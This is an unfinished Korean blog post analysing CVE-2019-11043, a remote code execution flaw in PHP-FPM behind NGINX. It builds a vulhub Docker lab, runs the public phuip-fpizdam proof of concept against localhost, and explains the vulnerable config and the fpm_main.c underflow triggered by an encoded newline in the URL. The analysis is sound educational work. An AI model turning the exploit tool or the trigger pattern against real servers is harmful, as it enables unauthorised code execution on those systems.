 ```yaml
---
layout: post
title: '[위협] PHP-FPM + NGINX RCE(CVE-2019-11043)'
subtitle: 'threat, php, fpm, nginx'
categories: threat
tags: application
comments: true
---
```


> 이 글은 어플리케이션 취약점을 분석한 글입니다. 출처: https://paper.seebug.org/1064/

# PHP-FPM + NGINX RCE

- PHP 7+
- CentOS 8

<br>
<br>

PHP-FPM(FastCGI Process Manager)은 동적 페이지를 빠르게 처리하기 위해 NginX, Apache와 연동하여 사용하는 CGI 이다.

해당 취약점은 아래와 같이 잘못된 NginX configuration으로 PHP-FPM을 사용할 경우 발생한다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

## 직접 공격해 보도록 하자. 

취약성을 가진 환경을 만들기 위해, Exploit DB에서 제공하는 `vulhub` 깃에서 도커 이미지를 받아온다.

```bash
[test@localhost Desktop]$ git mkdir test
[test@localhost test]$ git init
[test@localhost test]$ git config core.sparseCheckout true
[test@localhost test]$ git remote add -f origin https://github.com/vulhub/vulhub
[test@localhost test]$ echo "php/CVE-2019-11043" >> .git/info/sparse-Checkout
[test@localhost test]$ git pull origin master
[test@localhost test]$ mv -v CVE-2019-11043/ /home/유저아이디/Desktop/
[test@localhost test]$ rm -rf test
[test@localhost CVE-2019-11043]$ sudo docker-compose up -d
```

![](https://chanbin.github.io/assets/img/php-fpm/2.png)
<center>취약한 환경 구축</center>

<br>
<br>

Github에서 PoC 코드를 다운받아 공격 명령을 실행해본다.<br>해당 코드는 `golang`으로 작성되었다.

```bash
[test@localhost Desktop]$ sudo vi /etc/resolv.conf
nameserver 8.8.8.8 추가
[test@localhost Desktop]$ wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ tar -xzf go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ sudo mv go /usr/local
[test@localhost Desktop]$ mkdir test
[test@localhost Desktop]$ export GOROOT=/usr/local/go
[test@localhost Desktop]$ export GOPATH=$HOME/Desktop/test
[test@localhost Desktop]$ export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
# 환경변수를 유지하기 위해서는 ~/.bash_profile 파일에 입력해야 한다.
[test@localhost test]$ go get -v github.com/neex/phuip-fpizdam
[test@localhost test]$ go install github.com/neex/phuip-fpizdam
[test@localhost Desktop]$ phuip-fpizdam http://127.0.0.1:8080/index.php
[test@localhost test]$ 
```

![](https://chanbin.github.io/assets/img/php-fpm/3.png)
<center>취약점을 통해 파일 작성 후 원격 코드 실행 화면</center>

<br>
<br>

## 이제 분석해 보도록 하자. 

취약점 패치 내역을 다시 보면 `path_info` 변수의 조건에 문자열 길이 필터를 추가하여, false 값으로 유도하지 못하게 하고있다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

취약점 제보자의 문서를 찾아보면 `fastcgi_split_path_info` 지시문의 정규표현식은 개행 문자(\n,%0A)를 사용하여 해제할 수 있다. 정규표현식이 제대로 작동하지 않으므로 `PATH_INFO($fastcgi_path_info)`는 취약점의 트리거가 될 수 있다라고 나온다.

> The regexp in `fastcgi_split_path_info` directive can be broken using the newline character (in encoded form, %0a). Broken regexp leads to empty PATH_INFO, which triggers the bug.

```xml
# NGINX configuration 파일

location ~ [^/]\.php(/|$){
	fastcgi_split_path_info ^(.+?\.php)(/.*)$;
	include fastcgi_params;

	fastcgi_param PATH_INFO 	$fastcgi_path_info;
	fastcgi_index index.php;
	fastcgi_param REDIRECT_STATUS 	200;
	fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
	fastcgi_param DOCUMENT_ROOT /var/www/html;
	fastcgi_pass php:9000;
}
```
`fastcgi_split_path_info`의 정규표현식을 보면 첫 글자가 dot(.)이다. dot은 개행 문자(\n)를 제외한 임의의 한 문자를 의미하므로, 개행 문자가 들어온다면 변환에 실패한다.

[컨셉] 수정되기전 소스코드를 보면, `path_info = env_path_info ? env_path_info + pilen - slen : NULL;`에서 `path_info`값을 설정할 수 있다는 뜻이다.

소스코드를 자세히 보면,
```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
		...
989		char *env_path_info = FCGI_GETENV(request, "PATH_INFO");
		...
1108	char *pt = estrndup(script_path_translated, script_path_translated_len);
1109	int len = script_path_translated_len;
		...
1131	int ptlen = strlen(pt);
1132	int slen = len - ptlen;
1133	int pilen = env_path_info ? strlen(env_path_info) : 0;
1134	int tflag = 0;
1135	char *path_info;
1136	if (apache_was_here) {
1137		/* recall that PATH_INFO won't exist */
1138		path_info = script_path_translated + ptlen;
1139		tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
1140	} else {
1141		path_info = env_path_info ? env_path_info + pilen - slen : NULL;
1142		tflag = path_info && (orig_path_info != path_info);
1143	}
		...
```

1. `env_path_info` 선언에서, FastCGI 모듈의 환경변수를 가져오는 FCGI_GETENV함수를 사용한다. 이는 클라이언트의 요청값에서 `PATH_INFO`의 문자열(fastcgi_path_info, 실제 요청 URI) 주소값을 가져온다. 
2. 클라이언트의 잘못된 요청으로 `path_info`가 변조되면 `1133번째 줄`에서 strlen(NULL)은 거짓이므로 `pilen = 0`이 된다.
* 참고로, C언어에서 `변수선언 = 조건? 참 : 거짓;`라는 문법이 존재한다. 조건이 참일 시 콜론(:)앞의 값으로 선언이, 거짓일 시 콜론 뒤의 값으로 선언이 이루어 진다.
3. `pt`는 `script_path_translated`값을 `script_path_translated_len`만큼 복사한 문자열의 주소를 가지고 있다.
* `script_path_translated`는 클라이언트가 요청한 URI를 서버상의 PHP파일 경로(`SCRIPT_FILENAME`, `/var/www/html$fastcgi_script_name`)로 저장한 문자열이다.
* `script_path_translated_len`은 `script_path_translated`에서 `/` 또는 `\\`값이 나올 때까지 while문으로 반복하며 자르고, 해당 문자열을 찾으면 그 길이를 구한다. `script_path_translated_len`은 앞부분 `순수 URL`의 길이가 된다.
* 쉽게 말하자면, `pt`는 request에서 파라미터를 뗀 `SCRIPT_FILENAME` 이다
4. `1131~1132번째 줄`에서 `slen`은 클라이언트가 요청한 URI 파라미터의 길이이다.


요청 URL이 http://127.0.0.1/index.php/123%0Atest.php 이다면, 아래와 같다.
```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
		...
989		char *env_path_info = "/var/www/html/index.php/123\ntest.php";
		...
1108	char *pt = "/var/www/html/index.php";
		...
1131	int ptlen = strlen("/var/www/html/index.php");
1132	int slen = strlen("/var/www/html/index.php/123\ntest.php")
				 - strlen("/var/www/html/index.php");
1133	int pilen = 0; // path_info에서 %0A로 인한 0값 설정
1134	int tflag = 0;
		...
1140	else {
1141		path_info = env_path_info ? env_path_info + pilen - slen : NULL;
			// env_path_info==NULL, NULL=num이므로 참
			// path_info = strlen("123") + 0 - strlen("/123\ntest.php") = 음수
1142		tflag = path_info && (orig_path_info != path_info);
1143	}
		...
```

[컨셉 - 결과] `pilen`은 0이 되었고, `slen`은 URI를 뺀 실제파일 경로의 길이가 되었기 때문에, `path_info`는 NULL이 아닌 음의 값을 가질 수 있으므로 Underflow를 이용해 `특정 주소값`을 가리킬 수 있다.

```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
		...
1151	path_info[0] = 0;
1152	if (!orig_script_name ||
1153		strcmp(orig_script_name, env_path_info) != 0) {
1154		if (orig_script_name) {
1155		FCGI_PUTENV(request, "ORIG_SCRIPT_NAME", orig_script_name);
1156		}
1157		SG(request_info).request_uri = FCGI_PUTENV(request, "SCRIPT_NAME", env_path_info);
1158	} else {
1159		SG(request_info).request_uri = orig_script_name;
1160	}
		...
```

`1151번째 줄`의 `path_info[0] = 0;`을 통해, 어떤 특정주소의 첫번째 값을 0으로 바꿀 수 있다.
해당 문자열과 구조체는 `FCGI_PUTENV`함수 내부의 `fcgi_hash_set` 함수를 통해서 클라이언트 요청값에 있는 실행가능 한 코드로 대체되며, `FCGI_PUTENV`로 정의된 `fcgi_quick_putenv` 함수를 통해 서버에서 실행된다.
 

> 출처 : https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html 
> 출처 : https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/main/fastcgi.c#L1703

<br>
<br>

작성 중...
